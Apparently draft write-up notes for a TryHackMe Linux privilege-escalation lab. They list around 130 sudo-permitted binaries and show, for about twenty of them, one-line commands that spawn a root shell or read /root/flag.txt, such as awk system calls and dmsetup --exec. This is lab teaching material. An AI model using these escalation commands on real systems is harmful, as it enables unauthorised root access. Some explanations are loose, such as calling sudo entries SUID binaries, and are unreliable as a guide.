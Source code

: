 writeups for the linux priv esc playground pre release(notes):

### tryhackme linux priv esc playground - 80 SUID binaries(80 different priv esc methods):

In this category some will be in more depth and some will be in less detail depending on how much there is to explain.

* note that there will be more added every now and then, all 80 methods wont be available from release.
As always we will `sudo -l` to see what we can run as sudo. In this case there is 80 different ways of priv esc to root.
```bash
-bash-4.2$ sudo -l
Matching 'Defaults' entries for user on this host:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User user may run the following commands on this host:
    (root) NOPASSWD: /bin/apt-get*, (root) /bin/apt*, (root) /usr/bin/aria2c, (root) /usr/sbin/arp, (root) /bin/ash, (root) /usr/bin/awk, (root) /usr/bin/base64, (root) /bin/bash, (root) /bin/busybox, (root) /bin/cat, (root)
    /bin/chmod, (root) /bin/chown, (root) /bin/cp, (root) /usr/bin/cpan, (root) /usr/bin/cpulimit, (root) /bin/crontab, (root) /bin/csh, (root) /bin/curl, (root) /usr/bin/cut, (root) /bin/dash, (root) /bin/date, (root) /bin/dd, (root)
    /usr/bin/diff, (root) /bin/dmesg, (root) /sbin/dmsetup, (root) /usr/bin/docker, (root) /usr/bin/dpkg, (root) /usr/bin/easy_install, (root) /usr/bin/emacs, (root) /usr/bin/env, (root) /usr/bin/expand, (root) /usr/bin/expect, (root)
    /usr/bin/facter, (root) /usr/bin/file, (root) /usr/bin/find, (root) /usr/bin/flock, (root) /usr/bin/fmt, (root) /usr/bin/fold, (root) /usr/bin/ftp, (root) /usr/bin/gawk, (root) /usr/bin/gdb, (root) /usr/bin/gimp, (root)            
    /usr/bin/git, (root) /bin/grep, (root) /usr/bin/head, (root) /usr/sbin/iftop, (root) /usr/bin/ionice, (root) /sbin/ip, (root) /usr/bin/irb, (root) /usr/bin/jq, (root) /usr/bin/ksh, (root) /sbin/ldconfig, (root) /usr/bin/less,      
    (root) /sbin/logsave, (root) /usr/bin/ltrace, (root) /usr/bin/lua, (root) /usr/bin/make, (root) /usr/bin/man, (root) /usr/bin/mawk, (root) /bin/more, (root) /bin/mount, (root) /usr/bin/mtr, (root) /bin/mv, (root) /usr/bin/nano,    
    (root) /usr/bin/nawk, (root) /bin/nc, (root) /usr/bin/nice, (root) /usr/bin/nl, (root) /usr/bin/nmap, (root) /usr/sbin/node, (root) /usr/bin/od, (root) /usr/bin/openssl, (root) /usr/bin/perl, (root) /usr/bin/pg, (root)             
    /usr/bin/php, (root) /usr/bin/pic, (root) /usr/bin/pico, (root) /usr/bin/pip, (root) /usr/bin/puppet, (root) /usr/bin/python, (root) /usr/bin/readelf, (root) /usr/bin/redm, (root) /usr/bin/rlwrap, (root) /usr/bin/rsync, (root)     
    /usr/bin/ruby, (root) /usr/bin/run-mailcaps, (root) /bin/run-parts, (root) /usr/bin/rvim, (root) /usr/bin/scp, (root) /usr/bin/screen, (root) /usr/bin/script, (root) /bin/sed, (root) /usr/sbin/service, (root) /usr/bin/setarch,     
    (root) /usr/bin/sftp, (root) /usr/bin/smbclient, (root) /usr/bin/socat, (root) /usr/bin/sort, (root) /usr/bin/sqlite3, (root) /usr/bin/ssh, (root) /sbin/start-stop-daemon, (root) /usr/bin/stdbuf, (root) /usr/bin/strace, (root)     
    /usr/bin/tail, (root) /bin/tar, (root) /usr/bin/taskset, (root) /usr/bin/tclsh, (root) /usr/sbin/tcpdump, (root) /usr/bin/tee, (root) /usr/bin/telnet, (root) /usr/bin/tftp, (root) /usr/bin/time, (root) /usr/bin/timeout, (root)     
    /usr/bin/tmux, (root) /usr/bin/ul, (root) /usr/bin/unexpand, (root) /usr/bin/uniq, (root) /usr/bin/unshare, (root) /usr/bin/vi, (root) /usr/bin/vim, (root) /usr/bin/watch, (root) /usr/bin/wget, (root) /usr/bin/xargs, (root)        
    /usr/bin/xxd, (root) /usr/bin/zip, (root) /usr/bin/zsh
```

#### base64

```bash-4.2$ sudo base64 /root/flag.txt
Q29uZ3JhdHVsYXRpb25zISBZb3UgZ290IHRoZSBlYXNpZXN0IGZsYWcgb24gVEhNIQoKVEhNezNh
c3lfZjE0Z18xbTQwfQoKTm93IGdvIHByaXYgZXNjIHNvbWUgbW9yZSEK
```
First we convert the root flag to base64 using sudo then add it to a file and then decode from base64 giving us the flag.

#### arp

arp is used to do privileged file reads so we can try reading a file as sudo with arp and get our flag
```bash
sudo arp -v -f "/root/flag.txt"
```  
#### ash

ash was a really easy one just required knowledge of what it acctually did in order to execute it right.
Essentially ash is an suid that breaks out of restricted environments by spawning a shell, in our case the restricted environment is the user ssh session. We simply just run the program to get a shell.
```bash
bash-4.2$ sudo ash
# whoami
root
```

#### /bin/bash

this was was very obvious and summarises the very foundation of priv esc being spawning a shell e.g `/bin/bash`
```bash
sudo /bin/bash
root@privesc:/root#
```
#### busybox

Essentially busybox is an suid that breaks out of restricted environments by spawning a shell, in our case the restricted environment is the user ssh session. We simply just run the program with the parameter `sh` to break out of our shell. or likewise we can use it for a file read to in this example we read the flag with it.

```bash
bash-4.2$ sudo busybox cat "/root/flag.txt"
THM{3asy_f14g_1m40}
```

#### cat
For this one it should be obvious and needs 0 explanation we just do `sudo cat /root/flag.txt`

#### awk

Awk can also break out of shells but can work with reverse shells and many more, in our command we simply spawn a shell with `system`
```bash
-bash-4.2$ sudo awk 'BEGIN {system("/bin/sh")}'
# whoami                                                                                                                                    root
```

#### chmod

we change the permissions for the flag with chmod so that we can read it.
```bash
bash-4.2$ chmod 777 /root/flag.txt
bash-4.2$ cat /root/flag.txt
```

#### chown
With chown we can change the permissions of a file and in particular we want our flag file:
```bash
sudo chown $(id -un):$(id -gn) /root/flag.txt
```
From here we can read the flag normally

#### cp

```bash
sudo cp /root/flag.txt . | cat flag.txt
```

#### cpan

Cpan is a script that allows us to run perl commands with `! command`.
we run `sudo cpan` and then when the poppup comes up we type `! exec '/bin/bash'`.

#### cpulimit

we just run this to get a shell.
```bash
sudo cpulimit -l 100 -f /bin/sh
```

#### csh
used to break out of restricted shells:
```bash
bash-4.2$ sudo csh
# whoami
root
```

#### dash

used to break out of restricted shells.
```bash
-bash-4.2$ sudo dash
# whoami
root
```

#### date
By using date against a file is assumes that the file we give involves a time(number) but when we give it the file with the flag in it in theory it should give an error message. When we run it we get an error message with the flag along with it claiming that the flag is invalid.
```bash
-bash-4.2$ sudo date -f /root/flag.txt
date: invalid date `Congratulations! You got the easiest flag on THM!'
Sun Jul  5 00:00:00 BST 2020
date: invalid date `THM{3asy_f14g_1m40}'
Sun Jul  5 00:00:00 BST 2020
date: invalid date `Now go priv esc some more!
```

#### dd

```bash
-bash-4.2$ sudo dd if=/root/flag.txt
THM{3asy_f14g_1m40}
```

#### diff
diff reads files outside of a restricted system meaning that we can read the flag from outside our user own.

```bash
-bash-4.2$ sudo diff --line-format=%L /dev/null /root/flag.txt
THM{3asy_f14g_1m40}
```
#### dmsetup

```bash
-bash-4.2$ sudo dmsetup ls --exec '/bin/sh -s'
# whoami
root
```




checklist of all the ones that ive done with a ++ next to the command:

(root) NOPASSWD: /bin/apt-get*, (root) /bin/apt*, (root) /usr/bin/aria2c, (root) /usr/sbin/arp++, (root) /bin/ash++  (root) /usr/bin/awk++, (root) /usr/bin/base64++, (root) /bin/bash++, (root) /bin/busybox++, (root) /bin/cat++, (root)
/bin/chmod++, (root) /bin/chown++, (root) /bin/cp++, (root) /usr/bin/cpan++, (root) /usr/bin/cpulimit++, (root) /bin/crontab, (root) /bin/csh++, (root) /bin/curl, (root) /usr/bin/cut, (root) /bin/dash++, (root) /bin/date++, (root) /bin/dd++, (root)
/usr/bin/diff++, (root) /bin/dmesg, (root) /sbin/dmsetup++, (root) /usr/bin/docker, (root) /usr/bin/dpkg, (root) /usr/bin/easy_install, (root) /usr/bin/emacs, (root) /usr/bin/env, (root) /usr/bin/expand, (root) /usr/bin/expect, (root)
/usr/bin/facter, (root) /usr/bin/file, (root) /usr/bin/find, (root) /usr/bin/flock, (root) /usr/bin/fmt, (root) /usr/bin/fold, (root) /usr/bin/ftp, (root) /usr/bin/gawk, (root) /usr/bin/gdb, (root) /usr/bin/gimp, (root)            
/usr/bin/git, (root) /bin/grep, (root) /usr/bin/head, (root) /usr/sbin/iftop, (root) /usr/bin/ionice, (root) /sbin/ip, (root) /usr/bin/irb, (root) /usr/bin/jq, (root) /usr/bin/ksh, (root) /sbin/ldconfig, (root) /usr/bin/less,      
(root) /sbin/logsave, (root) /usr/bin/ltrace, (root) /usr/bin/lua, (root) /usr/bin/make, (root) /usr/bin/man, (root) /usr/bin/mawk, (root) /bin/more, (root) /bin/mount, (root) /usr/bin/mtr, (root) /bin/mv, (root) /usr/bin/nano,    
(root) /usr/bin/nawk, (root) /bin/nc, (root) /usr/bin/nice, (root) /usr/bin/nl, (root) /usr/bin/nmap, (root) /usr/sbin/node, (root) /usr/bin/od, (root) /usr/bin/openssl, (root) /usr/bin/perl, (root) /usr/bin/pg, (root)             
/usr/bin/php, (root) /usr/bin/pic, (root) /usr/bin/pico, (root) /usr/bin/pip, (root) /usr/bin/puppet, (root) /usr/bin/python, (root) /usr/bin/readelf, (root) /usr/bin/redm, (root) /usr/bin/rlwrap, (root) /usr/bin/rsync, (root)     
/usr/bin/ruby, (root) /usr/bin/run-mailcaps, (root) /bin/run-parts, (root) /usr/bin/rvim, (root) /usr/bin/scp, (root) /usr/bin/screen, (root) /usr/bin/script, (root) /bin/sed, (root) /usr/sbin/service, (root) /usr/bin/setarch,     
(root) /usr/bin/sftp, (root) /usr/bin/smbclient, (root) /usr/bin/socat, (root) /usr/bin/sort, (root) /usr/bin/sqlite3, (root) /usr/bin/ssh, (root) /sbin/start-stop-daemon, (root) /usr/bin/stdbuf, (root) /usr/bin/strace, (root)     
/usr/bin/tail, (root) /bin/tar, (root) /usr/bin/taskset, (root) /usr/bin/tclsh, (root) /usr/sbin/tcpdump, (root) /usr/bin/tee, (root) /usr/bin/telnet, (root) /usr/bin/tftp, (root) /usr/bin/time, (root) /usr/bin/timeout, (root)     
/usr/bin/tmux, (root) /usr/bin/ul, (root) /usr/bin/unexpand, (root) /usr/bin/uniq, (root) /usr/bin/unshare, (root) /usr/bin/vi, (root) /usr/bin/vim, (root) /usr/bin/watch, (root) /usr/bin/wget, (root) /usr/bin/xargs, (root)        
/usr/bin/xxd, (root) /usr/bin/zip, (root) /usr/bin/zsh
